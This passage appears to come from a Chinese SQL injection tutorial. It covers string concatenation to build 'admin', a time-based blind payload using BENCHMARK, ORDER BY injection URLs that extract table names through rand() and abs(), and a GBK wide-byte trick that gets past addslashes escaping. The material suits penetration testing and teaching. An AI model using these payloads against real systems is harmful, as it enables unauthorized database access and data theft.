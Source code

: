 ``` sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 CONCAT() 时，任何个参数为 null，将返回 null，推荐使用 CONCAT_WS()。CONCAT_WS()函数第一个参数表示用哪个字符间隔所查询的结果。

#### 条件语句

`CASE, IF(), IFNULL(), NULLIF().`

``` sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

#### 延时函数

`SLEEP(), BENCHMARK().`

``` sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

#### order by 后的注入

order by 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 order 或者 order by 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：

``` http
http://www.test.com/list.php?order=vote
```

根据 vote 字段排序。找到投票数最大的票数 num 然后构造以下链接：

``` http
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 rand 函数：

``` http
http://www.test.com/list.php?order=rand(true)

http://www.test.com/list.php?order=rand(false)
```

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

``` http
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

#### 宽字节注入

国内最常使用的 GBK 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。
